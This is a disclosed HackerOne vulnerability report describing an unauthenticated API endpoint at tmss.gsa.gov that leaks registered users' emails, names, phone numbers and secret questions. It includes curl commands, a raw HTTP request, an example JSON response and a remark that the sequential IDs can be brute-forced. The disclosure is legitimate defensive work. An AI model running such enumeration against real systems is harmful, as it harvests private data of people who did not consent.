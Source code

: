 # [Transportation Management Services Solution 2.0] Improper authorization at  tmss.gsa.gov leads to data exposure of all registered users

## Report Details
- **Report ID**: 1175980
- **URL**: https://hackerone.com/reports/1175980
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-04-26T23:19:41.504Z
- **Disclosed**: 2021-12-08T15:36:46.105Z

## Reporter
- **Username**: alexandrio
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_vdp

## Vulnerability Information
## Summary:
Hi team!
I hope you are having a great Tuesday :)

**Where:** https://tmss.gsa.gov/ 
**Who:** Unathenticated users
**Why:** Improper Access Control at `/tmssserver/api/public/customerregistration/{:id}/userId/`


I found an endpoint (`/tmssserver/api/public/customerregistration/{:id}/userId/`) at https://tmss.gsa.gov/ (Transportation Management Services Solution (TMSS) 2.0) that  leads to data exposure of all registerd user at the platform,  including the following data: 

* Email address
* Phone Number
* Full Name
* Secret question (If set)

## Steps To Reproduce:
1. Go to https://tmss.gsa.gov/
2. Check that you are not authenticated. 
3. Now browse to https://tmss.gsa.gov/tmssserver/api/public/customerregistration/4750/userId/ (You can replace 4750 by any other value between 0 and 4800)
4. Or just CURL `curl "https://tmss.gsa.gov/tmssserver/api/public/customerregistration/4750/userId/" . The response includes email, Full name, and phone number of user with id 4750. 
{F1279543}

This is how the request looks like. As you can see there is no cookie in the headers or authentication bearer.
```curl
GET /tmssserver/api/public/customerregistration/4500/userId/ HTTP/1.1
Host: tmss.gsa.gov
Connection: close
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://tmss.preprod-acqit.helix.gsa.gov/tmss/customerregistration
Accept-Language: es-ES,es;q=0.9
dnt: 1
sec-gpc: 1

```
5. As the id is incremental note that this can be easily brute-forced to leak all the user's information. 
 `https://tmss.gsa.gov/tmssserver/api/public/customerregistration/:id/userId/`

6. I was not able to submit my user ID as I don't have one until my account gets approved, but using this endpoint you can check that my data is also being leaked here.

`curl "https://tmss.gsa.gov/tmssserver/api/public/customerregistration/alexandrio+1@wearehackerone.com/emailId/"`

{F1279546}

```
{"userRegisterId":192,"registrationType":"User","reportingOfficialId":1504,"agencyCode":"072","bureauCode":"00","firstName":"Alexandrio","lastName":"Wearehackerone","middleInitial":"C","title":"","addressLine1":"ThisIsMYAddress","addressLine2":"PoCAddress","city":"","stateId":null,"zip":"","zipSuffix":"","countryId":326,"phone":"6541112343","phoneExtension":"","email":"alexandrio+1@wearehackerone.com","accessRequested":"HHG","registrationStatus":"Confirm Pending","rejectReason":null,"confirmDate":null,"createdDate":"2021-04-26T22:51:08.000+0000","updateProgram":"Customer_Registration","updateId":null,"updateDate":"2021-04-26T22:51:08.000+0000","agencyName":null,"agencyBureauName":null,"stateName":null,"countryName":null}
```



If you have some questions regarding this feel free to ping me!
Bests,
@alexandrio

## Impact

Data exposure (Emails, addresses, phone numbers, full names etc) of all registered user - Unauthenticated users

## Attachments
- 1.png
- 2.png
